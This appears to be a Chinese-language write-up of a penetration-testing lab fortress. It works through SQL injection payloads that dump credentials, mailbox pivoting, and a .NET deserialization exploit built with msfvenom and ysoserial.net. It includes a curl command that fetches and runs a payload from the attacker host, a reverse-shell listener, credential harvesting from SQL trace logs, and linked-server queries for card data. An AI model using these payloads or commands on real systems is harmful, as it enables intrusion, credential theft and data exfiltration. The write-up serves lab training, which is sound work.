




# Context

:::note ABOUT Context

We are a certified cyber security consultancy helping clients avoid potential breaches and to deter, detect and respond to the most sophisticated cyber-attacks. Now a part of Accenture Security, our services include a comprehensive portfolio of advisory and advanced technical cyber security services.

我们是一家经过认证的网络安全咨询公司，帮助客户避免潜在的违规行为，并阻止、检测和应对最复杂的网络攻击。现在作为埃森哲安全的一部分，我们的服务包括全面的咨询和高级技术网络安全服务组合。
:::

## ENTRY POINT

```plaintext
10.13.37.12
```

## First of all

```plaintext title="sudo nmap -A --min-rate=5000 -T4 -sU --top-ports 20 10.13.37.12"
None
```

```plaintext title="rustscan --ulimit 5000 10.13.37.12"
Open 10.13.37.12:443
Open 10.13.37.12:5985
```

```plaintext title="sudo nmap -A --min-rate=5000 -T5 -p- 10.13.37.12"
PORT     STATE SERVICE       VERSION
443/tcp  open  https?
| ssl-cert: Subject: commonName=WMSvc-SHA2-WEB
| Not valid before: 2020-10-12T18:31:49
|_Not valid after:  2030-10-10T18:31:49
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2070.00; GDR1
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WEB.TEIGNTON.HTB
| Not valid before: 2024-02-26T01:13:11
|_Not valid after:  2024-08-27T01:13:11
| rdp-ntlm-info:
|   Target_Name: TEIGNTON
|   NetBIOS_Domain_Name: TEIGNTON
|   NetBIOS_Computer_Name: WEB
|   DNS_Domain_Name: TEIGNTON.HTB
|   DNS_Computer_Name: WEB.TEIGNTON.HTB
|   DNS_Tree_Name: TEIGNTON.HTB
|   Product_Version: 10.0.17763
|_  System_Time: 2024-03-07T04:30:14+00:00
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

## Introduction

```plaintext
After a red team fix? The Context fortress has you covered. Teignton Safes is a long-standing physical security company that has built their reputation on building very secure safes. They have recently electronified their records and processes, and are looking to take full advantage of the internet to help them expand into new markets. Before opening up their new infrastructure to the value chain, they have tasked your security company to perform a full penetration test, starting externally and attempting to compromise the internal domain if possible. Can you crack the perimeter and access the internal vault?

需要红色团队修复吗？Context 要塞可以满足您的需求。Teignton Safes 是一家历史悠久的实体安全公司，其声誉建立在制造非常安全的保险箱之上。他们最近电气化了他们的记录和流程，并希望充分利用互联网来帮助他们拓展新市场。在向价值链开放其新基础设施之前，他们已责成您的安全公司执行全面的渗透测试，从外部开始，如果可能，尝试入侵内部域。你能突破边界并访问内部金库吗？
```

## But we have SSL!?

根据题目名称，以及扫描到的端口信息，尝试访问 `https://10.13.37.12/`


对所有元素进行探测，发现 `https://10.13.37.12/Home/Staff`

```html title="https://10.13.37.12/Home/Staff"
......
<!-- todo: Set up Abbie on the portal, she'll be taking over my duties while I'm away.
Karl if I forget to do this, it's jay.teignton:admin for the portal
CONTEXT{s3cur1ty_thr0ugh_0bscur1ty}
-->
```

```plaintext title="Flag"
CONTEXT{s3cur1ty_thr0ugh_0bscur1ty}
```

## That shouldn't be there

在上一题中，得到一个凭据

```plaintext
jay.teignton:admin
```

尝试在 `https://10.13.37.12/Admin` 中使用这个凭据进行登录

成功访问到 `https://10.13.37.12/Admin/Management`


在页面上发现一个记录添加功能，通过抓包查看添加记录时的数据包

```plaintext
POST /Admin/AddProduct HTTP/2
Host: 10.13.37.12
Cookie: .AspNetCore.Antiforgery.oS4Q00mERc0=CfDJ8Ac4GTcJHhJOho1Cp4jIx8fpAHs09j0CJnKRMPA1xyi-GFo8_9jclZ-SL4lDAymLzYrcZIvMOzMUSqgTLKSQlz3L2rw6nacGwSszqS2vDBENvaSfyhFuAt7BG5qYbEy85FKR0MHFiHIdL82HY5Om71g; .AspNetCore.Session=CfDJ8Ac4GTcJHhJOho1Cp4jIx8fQjqfSQxIaGrgMc8oWe2QNaLlHEhdNrJ2JhOZ%2Fje1%2BG19SVyuYXK0agn1MmIRoXmJGUtvHCJPDlTvyq3B13gwlhfmEibcI0ioA1j%2FEwN1MvbrVfr0qR%2FN6H9a3uCyP%2BXaCYngh0%2F59XBAbLu37Lf6w
Content-Length: 227
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://10.13.37.12
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://10.13.37.12/Admin/Management
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i

name=a&price=1&creationYear=2000&certified=1&__RequestVerificationToken=CfDJ8Ac4GTcJHhJOho1Cp4jIx8eSyOhHUtIDXKAVUYmOBn0oXkzWglsBP_LQvBoanyPr0KdnFu-IOkTS6xjULVhRlv49hVfJF-BK8Y4pjh4D1gM5F-UZuof47s-EHdnmV0TCJQ4TZPwnAMvuJsGfQebi6JM
```

尝试在 `name` 参数中进行 sql 注入

```plaintext title="'+(select db_name())+'  "
webapp
```

```plaintext title="'+(select name from webapp..sysobjects where xtype ='U'order by name offset 1 rows fetch next 1 rows only)+'"
users
```

```plaintext title="'+(select top 1 username from users order by username)+'"
abbie.buckfast
```

```plaintext title="'+(select top 1 password from users order by username)+'"
AMkru$3_f'/Q^7f?
```

同时，还能在数据库中找到

```plaintext title="'+(select password from users order by username offset 2 rows fetch next 1 rows only)+'"
CONTEXT{d0_it_st0p_it_br34k_it_f1x_it}
```

## Have we met before?

对站点尝试进行目录爆破

```plaintext
[12:11:36] 200 -    3KB - /ADMIN
[12:11:38] 200 -    3KB - /Admin
[12:11:44] 401 -    0B  - /Microsoft-Server-ActiveSync/
[12:11:46] 302 -  208B  - /OWA/  ->  https://10.13.37.12/owa/auth/logon.aspx?url=https%3a%2f%2f10.13.37.12%2fOWA%2f&reason=0
[12:12:07] 200 -    3KB - /admin
[12:12:09] 200 -    3KB - /admin/
[12:12:09] 200 -    3KB - /admin/?/login
[12:12:11] 200 -    3KB - /admin/index
[12:13:07] 302 -  208B  - /ecp/  ->  https://10.13.37.12/owa/auth/logon.aspx?url=https%3a%2f%2f10.13.37.12%2fecp%2f&reason=0
[12:13:13] 200 -   31KB - /favicon.ico
[12:13:20] 200 -    2KB - /home
```

尝试访问 `https://10.13.37.12/owa/` 后，使用以下凭据进行登录

```plaintext
abbie.buckfast : AMkru$3_f'/Q^7f?
```

成功访问 `Outlook`


在对 `Open another mailbox...` 功能进行探测的时候，发现可以访问 `jay.teignton@teignton.htb` 这个邮箱



在发件箱中找到信息



```plaintext title="Flag"
CONTEXT{wh00000_4re_y0u?}
```

## Is it a bird? Is it a plane?

在 `jay.teignton@teignton.htb` 的收件箱中，找到 `Karl Memaybe` 发的一封邮件

```plaintext
Hi Jay,

Do you even have the code anymore, or did you lose it when your GitHub account got hacked?

I've attached it, try not to lose it again.

Karl

----------
From: Jay Teignton
Sent: 13 October 2020 10:53:28
To: Karl Memaybe
Subject: Fw: Website Status

Man, my dad is stressing me over the website. Have you fixed the vulnerability yet? That defect was identified last year!!!! I know you've spent the last six months revising for CEH, but I've yet to see any tangible evidence of your security skills!

Kind Regards,
Jay

----------
From: Andy Teignton
Sent: 13 October 2020 10:51
To: Jay Teignton
Subject: Website Status

Son, have you finished the website yet? I login to the admin panel and all I see is "work in progress" on the page?!

I desperately need to look over the specifications for the IceMouth safe as our clients are waiting!

Best Wishes,
Dad
```

同时得到一个文件 `WebApplication.zip`

压缩包的文件结构为

```plaintext
D:.
│  Database.cs
│  favicon.ico
│  Global.asax
│  Global.asax.cs
│  LICENCE.txt
│  packages.config
│  Profile.cs
│  Web.config
│  Web.Debug.config
│  Web.Release.config
│  WebApplication.csproj
│  WebApplication.csproj.user
│
├─App_Data
├─App_Start
│      BundleConfig.cs
│      FilterConfig.cs
│      RouteConfig.cs
│
├─bin
├─Content
│  │  bootstrap-theme.css
│  │  bootstrap-theme.css.map
│  │  bootstrap-theme.min.css
│  │  bootstrap-theme.min.css.map
│  │  bootstrap.css
│  │  bootstrap.css.map
│  │  bootstrap.min.css
│  │  bootstrap.min.css.map
│  │  Site.css
│  │
│  └─assets
│          safe1.jpg
│          Thumbs.db
│
├─Controllers
│      AdminController.cs
│      HomeController.cs
│
├─fonts
│      glyphicons-halflings-regular.eot
│      glyphicons-halflings-regular.svg
│      glyphicons-halflings-regular.ttf
│      glyphicons-halflings-regular.woff
│      glyphicons-halflings-regular.woff2
│
├─Models
├─obj
│  ├─Debug
│  │  │  DesignTimeResolveAssemblyReferencesInput.cache
│  │  │  TemporaryGeneratedFile_036C0B5B-1481-4323-8D20-8F5ADCB23D92.cs
│  │  │  TemporaryGeneratedFile_5937a670-0e60-4077-877b-f7221da3dda1.cs
│  │  │  TemporaryGeneratedFile_E7A71F73-0F8D-4B9B-B56E-8E70B10BC5D3.cs
│  │  │  WebApplication.csproj.CopyComplete
│  │  │  WebApplication.csproj.CoreCompileInputs.cache
│  │  │  WebApplication.csproj.FileListAbsolute.txt
│  │  │  WebApplication.csprojAssemblyReference.cache
│  │  │  WebApplication.dll
│  │  │  WebApplication.pdb
│  │  │
│  │  └─TempPE
│  └─Release
│      │  TemporaryGeneratedFile_036C0B5B-1481-4323-8D20-8F5ADCB23D92.cs
│      │  TemporaryGeneratedFile_5937a670-0e60-4077-877b-f7221da3dda1.cs
│      │  TemporaryGeneratedFile_E7A71F73-0F8D-4B9B-B56E-8E70B10BC5D3.cs
│      │  WebApplication.csproj.CopyComplete
│      │  WebApplication.csproj.CoreCompileInputs.cache
│      │  WebApplication.csproj.FileListAbsolute.txt
│      │  WebApplication.dll
│      │  WebApplication.pdb
│      │
│      └─TempPE
├─Properties
│      AssemblyInfo.cs
│
├─Scripts
│      bootstrap.js
│      bootstrap.min.js
│      jquery-3.4.1.intellisense.js
│      jquery-3.4.1.js
│      jquery-3.4.1.min.js
│      jquery-3.4.1.min.map
│      jquery-3.4.1.slim.js
│      jquery-3.4.1.slim.min.js
│      jquery-3.4.1.slim.min.map
│      jquery.validate-vsdoc.js
│      jquery.validate.js
│      jquery.validate.min.js
│      jquery.validate.unobtrusive.js
│      jquery.validate.unobtrusive.min.js
│      modernizr-2.8.3.js
│
└─Views
    │  Web.config
    │  _ViewStart.cshtml
    │
    ├─Admin
    │      Index.cshtml
    │      Management.cshtml
    │
    ├─Home
    │      Contact.cshtml
    │      Index.cshtml
    │      Privacy.cshtml
    │      Products.cshtml
    │      Staff.cshtml
    │
    └─Shared
            Error.cshtml
            _Layout.cshtml
```

在 `Views\_ViewStart.cshtml` 中

```csharp
@{
    Layout = "~/Views/Shared/_Layout.cshtml";
}

@using System.Text;
@using System.Web.Script.Serialization;
@{
    if (0 != Context.Session.Keys.Count) {
        if (null != Context.Request.Cookies.Get("Profile")) {
            try {
                byte[] data = Convert.FromBase64String(Context.Request.Cookies.Get("Profile")?.Value);
                string str = UTF8Encoding.UTF8.GetString(data);

                SimpleTypeResolver resolver = new SimpleTypeResolver();
                JavaScriptSerializer serializer = new JavaScriptSerializer(resolver);

                object obj = (serializer.Deserialize(str, typeof(object)) as Profile);
                // TODO: create profile to change the language and font of the website
            } catch (Exception e) {
            }
        }
    }
}
```

这里容易受到反序列化攻击的影响

首先，使用 `msfvenom` 生成 c2 恶意负载

```shell
┌─[randark@parrot]─[~]
└──╼ $ msfvenom -p windows/x64/powershell_reverse_tcp LHOST=10.10.16.2 LPORT=9999 -f exe -o exploit.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1889 bytes
Final size of exe file: 8192 bytes
Saved as: exploit.exe
```

然后使用 [Github - NHPT/ysoserial.net](https://github.com/NHPT/ysoserial.net) 生成反序列化负载

```shell
PS D:\_Tools\ysoserial-1dba9c4416ba6e79b6b262b758fa75e2ee9008e9\Release> .\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c curl 10.10.16.2/exploit.exe -o C:\exploit.exe"
ew0KICAgICdfX3R5cGUnOidTeXN0ZW0uV2luZG93cy5EYXRhLk9iamVjdERhdGFQcm92aWRlciwgUHJlc2VudGF0aW9uRnJhbWV3b3JrLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNScsIA0KICAgICdNZXRob2ROYW1lJzonU3RhcnQnLA0KICAgICdPYmplY3RJbnN0YW5jZSc6ew0KICAgICAgICAnX190eXBlJzonU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODknLA0KICAgICAgICAnU3RhcnRJbmZvJzogew0KICAgICAgICAgICAgJ19fdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzU3RhcnRJbmZvLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgICAgICdGaWxlTmFtZSc6J2NtZCcsICdBcmd1bWVudHMnOicvYyBjbWQgL2MgY3VybCAxMC4xMC4xNi4yL2V4cGxvaXQuZXhlIC1vIEM6XFxleHBsb2l0LmV4ZScNCiAgICAgICAgfQ0KICAgIH0NCn0=
```

通过 python 开启一个临时投放

```shell
┌─[randark@parrot]─[~]
└──╼ $ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

然后在浏览器中，开发者工具，添加一个 Cookie

```plaintext
Profile:ew0KICAgICdfX3R5cGUnOidTeXN0ZW0uV2luZG93cy5EYXRhLk9iamVjdERhdGFQcm92aWRlciwgUHJlc2VudGF0aW9uRnJhbWV3b3JrLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNScsIA0KICAgICdNZXRob2ROYW1lJzonU3RhcnQnLA0KICAgICdPYmplY3RJbnN0YW5jZSc6ew0KICAgICAgICAnX190eXBlJzonU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODknLA0KICAgICAgICAnU3RhcnRJbmZvJzogew0KICAgICAgICAgICAgJ19fdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzU3RhcnRJbmZvLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgICAgICdGaWxlTmFtZSc6J2NtZCcsICdBcmd1bWVudHMnOicvYyBjbWQgL2MgY3VybCAxMC4xMC4xNi4yL2V4cGxvaXQuZXhlIC1vIEM6XFxleHBsb2l0LmV4ZScNCiAgICAgICAgfQ0KICAgIH0NCn0=
```



然后进行访问



成功触发反序列化

```shell
┌─[randark@parrot]─[~]
└──╼ $ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.13.37.12 - - [07/Mar/2024 16:34:53] "GET /shell.exe HTTP/1.1" 200 -
```

然后重新构造反序列化载荷

```shell
PS D:\_Tools\ysoserial-1dba9c4416ba6e79b6b262b758fa75e2ee9008e9\Release> .\ysoserial.exe -f JavaScriptSerializer -o base64 -g ObjectDataProvider -c "cmd /c C:\exploit.exe"
ew0KICAgICdfX3R5cGUnOidTeXN0ZW0uV2luZG93cy5EYXRhLk9iamVjdERhdGFQcm92aWRlciwgUHJlc2VudGF0aW9uRnJhbWV3b3JrLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49MzFiZjM4NTZhZDM2NGUzNScsIA0KICAgICdNZXRob2ROYW1lJzonU3RhcnQnLA0KICAgICdPYmplY3RJbnN0YW5jZSc6ew0KICAgICAgICAnX190eXBlJzonU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODknLA0KICAgICAgICAnU3RhcnRJbmZvJzogew0KICAgICAgICAgICAgJ19fdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXNzU3RhcnRJbmZvLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgICAgICdGaWxlTmFtZSc6J2NtZCcsICdBcmd1bWVudHMnOicvYyBjbWQgL2MgQzpcXGV4cGxvaXQuZXhlJw0KICAgICAgICB9DQogICAgfQ0KfQ==
```

同时启动一个监听器

```shell
┌─[randark@parrot]─[~]
└──╼ $ sudo msfconsole -q
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 10.10.16.2
LHOST => 10.10.16.2
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 9999
LPORT => 9999
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.16.2:9999
```

在网页上触发反序列化后，收到回连的 shell

```shell
┌─[randark@parrot]─[~]
└──╼ $ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.12
Windows PowerShell running as user web_user on WEB
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
teignton\web_user
......
PS C:\Users\Public> type flag.txt
CONTEXT{uNs4fe_deceri4liz3r5?!_th33333yre_gr8}
```

```plaintext title="Flag
CONTEXT{uNs4fe_deceri4liz3r5?!_th33333yre_gr8}
```

## This looks bad

在 `C:\` 中，发现日志文件夹

```shell
PS C:\Logs\WEBDB> dir

    Directory: C:\Logs\WEBDB

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       30/04/2020     15:42          16962 ERRORLOG
-a----       30/04/2020     15:41          38740 ERRORLOG.1
-a----       27/04/2020     14:47          70144 HkEngineEventFile_0_132324688578520000.xel
-a----       27/04/2020     14:47          70144 HkEngineEventFile_0_132324688633370000.xel
-a----       27/04/2020     14:47          70144 HkEngineEventFile_0_132324688733830000.xel
-a----       27/04/2020     14:57          70144 HkEngineEventFile_0_132324694642170000.xel
-a----       27/04/2020     15:09          70144 HkEngineEventFile_0_132324701496760000.xel
-a----       28/04/2020     11:11          70144 HkEngineEventFile_0_132325422936270000.xel
-a----       29/04/2020     15:23          70144 HkEngineEventFile_0_132326437911670000.xel
-a----       29/04/2020     16:04          70144 HkEngineEventFile_0_132326462946300000.xel
-a----       29/04/2020     16:08          70144 HkEngineEventFile_0_132326464955870000.xel
-a----       30/04/2020     09:55          70144 HkEngineEventFile_0_132327105065260000.xel
-a----       30/04/2020     10:15          70144 HkEngineEventFile_0_132327117227960000.xel
-a----       30/04/2020     10:56          70144 HkEngineEventFile_0_132327142045910000.xel
-a----       30/04/2020     12:33          70144 HkEngineEventFile_0_132327199844110000.xel
-a----       30/04/2020     14:45          70144 HkEngineEventFile_0_132327279504690000.xel
-a----       30/04/2020     15:41          70144 HkEngineEventFile_0_132327312839890000.xel
-a----       30/04/2020     10:55        1048576 log_10.trc
-a----       30/04/2020     11:34        1048576 log_11.trc
-a----       30/04/2020     14:45        1048576 log_12.trc
-a----       30/04/2020     15:41        1048576 log_13.trc
-a----       30/04/2020     15:41           2560 log_14.trc
-a----       30/04/2020     11:34         130048 system_health_0_132327142055920000.xel
-a----       30/04/2020     14:45         160768 system_health_0_132327199872080000.xel
-a----       30/04/2020     15:41         131072 system_health_0_132327279509840000.xel
-a----       30/04/2020     15:41          98816 system_health_0_132327312844270000.xel
```

在其中发现可能的凭据

```shell
PS C:\Logs\WEBDB> type log_13.trc | Select-String TEIGNTON

????????? ??? ?????? ?????????? ??????? TEIGNTON\karl.memaybe
????????? ??? ?????? ?????????? ??????? B6rQx_d&RVqvcv2A
```

尝试使用此凭据连接数据库

```shell
┌─[randark@parrot]─[~]
└──╼ $ impacket-mssqlclient teignton.htb/karl.memaybe:'B6rQx_d&RVqvcv2A'@10.13.37.12 -windows-auth
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(WEB\WEBDB): Line 1: Changed database context to 'master'.
[*] INFO(WEB\WEBDB): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 822)
[!] Press help for extra shell commands
SQL>
```

执行环境探测

```sql
SQL> select @@version;

Microsoft SQL Server 2019 (RTM-GDR) (KB4517790) - 15.0.2070.41 (X64)
Oct 28 2019 19:56:59
Copyright (C) 2019 Microsoft Corporation
Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)

SQL> select user_name();


--------------------------------------------------------------------------------------------------------------------------------

guest

SQL> SELECT name FROM master.dbo.sysdatabases;
name

--------------------------------------------------------------------------------------------------------------------------------

master
tempdb
model
msdb
webapp

SQL> select @@servername;

--------------------------------------------------------------------------------------------------------------------------------

WEB\WEBDB

SQL> select srvname from sysservers;
srvname

--------------------------------------------------------------------------------------------------------------------------------

WEB\CLIENTS
WEB\WEBDB
```

从 `[web\clients]` 中查询信息

```sql
SQL> select * from openquery([web\clients], 'select name from sysdatabases;');
name

--------------------------------------------------------------------------------------------------------------------------------

master
tempdb
model
msdb
clients

SQL> select * from openquery([web\clients], 'select name from clients.sys.objects;');
name

--------------------------------------------------------------------------------------------------------------------------------

BackupClients
card_details
QueryNotificationErrorsQueue
queue_messages_1977058079
EventNotificationErrorsQueue
queue_messages_2009058193
ServiceBrokerQueue
queue_messages_2041058307
```

`card_details` 中包含有多条信息，尝试进行筛选

```shell
❯ sqsh -S 10.13.37.12:1433 -U 'teignton\karl.memaybe' -P 'B6rQx_d&RVqvcv2A'
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'

1> select * from openquery([web\clients], 'select * from clients.dbo.card_details;');
2> go | grep CONTEXT
CONTEXT{g1mm2_g1mm3_g1mm4_y0ur_cr3d1t}
```

```plaintext title="Flag"
CONTEXT{g1mm2_g1mm3_g1mm4_y0ur_cr3d1t}
```

## It's not a backdoor, it's a feature

在数据库中，还发现了 `assembly_files`

```sql
SQL> select cast (N''as xml).value('xs:base64Binary(sql:column("content"))','varchar(max)') as data from openquery([web\clients],'select * from clients.sys.assembly_files;') order by content desc offset 1 rows;
data
